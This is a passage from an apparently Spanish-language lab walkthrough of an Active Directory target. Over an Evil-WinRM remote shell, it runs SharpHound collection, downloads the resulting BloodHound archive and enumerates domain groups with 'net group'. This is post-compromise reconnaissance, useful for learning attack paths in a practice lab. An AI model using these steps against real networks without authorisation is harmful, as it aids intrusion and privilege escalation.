 - Ahora tenemos el comprimido.

```bash
*Evil-WinRM* PS C:\Users\support\Documents> ls


    Directory: C:\Users\support\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/29/2024   1:20 PM          22935 20240329132001_BloodHound.zip
-a----         3/29/2024   1:18 PM        1343488 SharpHound.exe
-a----         3/29/2024   1:20 PM          44570 YzgyNDA2MjMtMDk1ZC00MGYxLTk3ZjUtMmYzM2MzYzVlOWFi.bin


*Evil-WinRM* PS C:\Users\support\Documents>
```

- Ese `.zip` lo vamos a subir a `BloodHound` vamos a descargarlo.

```bash
*Evil-WinRM* PS C:\Users\support\Documents> download C:\Users\support\Documents\20240329132001_BloodHound.zip info.zip

Info: Downloading C:\Users\support\Documents\20240329132001_BloodHound.zip to info.zip

Info: Download successful!
```

- Vemos que hay un grupo que se llama **Shared Support Accounts**.

```bash
*Evil-WinRM* PS C:\Users\support\Documents> net group

Group Accounts for \\

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Protected Users
*Read-only Domain Controllers
*Schema Admins
*Shared Support Accounts
The command completed with one or more errors.
```
